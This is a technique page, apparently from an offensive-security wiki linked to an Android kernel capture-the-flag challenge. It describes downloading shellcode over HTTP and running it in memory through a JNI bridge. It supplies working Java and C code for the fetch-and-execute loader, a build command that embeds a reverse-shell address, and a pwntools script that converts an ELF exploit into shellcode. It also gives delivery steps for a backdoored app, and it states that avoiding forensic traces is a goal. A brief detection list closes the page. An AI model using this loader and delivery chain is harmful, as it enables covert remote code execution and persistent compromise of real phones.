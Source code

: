# Android In-Memory Native Code Execution via JNI (shellcode)

This page documents a practical pattern to execute native payloads fully in memory from an untrusted Android app process using JNI. The flow avoids creating any on-disk native binary: download raw shellcode bytes over HTTP(S), pass them to a JNI bridge, allocate RX memory, and jump into it.

Why it matters
- Reduces forensic artifacts (no ELF on disk)
- Compatible with “stage-2” native payloads generated from an ELF exploit binary
- Matches tradecraft used by modern malware and red teams

High-level pattern
1) Fetch shellcode bytes in Java/Kotlin
2) Call a native method (JNI) with the byte array
3) In JNI: allocate RW memory → copy bytes → mprotect to RX → call entrypoint

Minimal example

Java/Kotlin side
```java
public final class NativeExec {
    static { System.loadLibrary("nativeexec"); }
    public static native int run(byte[] sc);
}

// Download and execute (simplified)
byte[] sc = new java.net.URL("https://your-server/sc").openStream().readAllBytes();
int rc = NativeExec.run(sc);
```

C JNI side (arm64/amd64)
```c
#include <jni.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

static inline void flush_icache(void *p, size_t len) {
    __builtin___clear_cache((char*)p, (char*)p + len);
}

JNIEXPORT jint JNICALL
Java_com_example_NativeExec_run(JNIEnv *env, jclass cls, jbyteArray sc) {
    jsize len = (*env)->GetArrayLength(env, sc);
    if (len <= 0) return -1;

    // RW anonymous buffer
    void *buf = mmap(NULL, len, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (buf == MAP_FAILED) return -2;

    jboolean isCopy = 0;
    jbyte *bytes = (*env)->GetByteArrayElements(env, sc, &isCopy);
    if (!bytes) { munmap(buf, len); return -3; }

    memcpy(buf, bytes, len);
    (*env)->ReleaseByteArrayElements(env, sc, bytes, JNI_ABORT);

    // Make RX and execute
    if (mprotect(buf, len, PROT_READ | PROT_EXEC) != 0) { munmap(buf, len); return -4; }
    flush_icache(buf, len);

    int (*entry)(void) = (int (*)(void))buf;
    int ret = entry();

    // Optional: restore RW and wipe
    mprotect(buf, len, PROT_READ | PROT_WRITE);
    memset(buf, 0, len);
    munmap(buf, len);
    return ret;
}
```

Notes and caveats
- W^X/execmem: Modern Android enforces W^X; anonymous PROT_EXEC mappings are still generally allowed for app processes with JIT (subject to SELinux policy). Some devices/ROMs restrict this; fall back to JIT-allocated exec pools or native bridges when needed.
- Architectures: Ensure the shellcode architecture matches the device (arm64-v8a commonly; x86 only on emulators).
- Entrypoint contract: Decide a convention for your shellcode entry (no args vs structure pointer). Keep it position-independent (PIC).
- Stability: Clear instruction cache before jumping; mismatched cache can crash on ARM.

Packaging ELF → position‑independent shellcode
A robust operator pipeline is to:
- Build your exploit as a static ELF with musl-gcc
- Convert the ELF into a self‑loading shellcode blob using pwntools’ shellcraft.loader_append

Build
```bash
musl-gcc -O3 -s -static -fno-pic -o exploit exploit.c \
  -DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```

Transform ELF to raw shellcode (amd64 example)
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
loader = shellcraft.loader_append(elf.data, arch='amd64')
sc = asm(loader)
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)}, shellcode size={len(sc)}")
```

Why loader_append works: it emits a tiny loader that maps the embedded ELF program segments in memory and transfers control to its entrypoint, giving you a single raw blob that can be memcpy’ed and executed by the app.

Delivery
- Host sc on an HTTP(S) server you control
- The backdoored/test app downloads sc and invokes the JNI bridge shown above
- Listen on your operator box for any reverse connection the kernel/user-mode payload establishes

Validation workflow for kernel payloads
- Use a symbolized vmlinux for fast reversing/offset recovery
- Prototype primitives on a convenient debug image if available, but always re‑validate on the actual Android target (kallsyms, KASLR slide, page-table layout, and mitigations differ)

Hardening/Detection (blue team)
- Disallow anonymous PROT_EXEC in app domains where possible (SELinux policy)
- Enforce strict code integrity (no dynamic native loading from network) and validate update channels
- Monitor suspicious mmap/mprotect transitions to RX and large byte-array copies preceding jumps

References
- [CoRPhone challenge repo (Android kernel pwn; JNI memory-only loader pattern)](https://github.com/0xdevil/corphone)
- [build.sh (musl-gcc + pwntools pipeline)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/build.sh)
- [exp2sc.py (pwntools shellcraft.loader_append)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exp2sc.py)
- [exploit.c TL;DR (operator/kernel flow, offsets, reverse shell)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exploit.c)
- [INSTRUCTIONS.md (setup notes)](https://github.com/0xdevil/corphone/blob/main/INSTRUCTIONS.md)

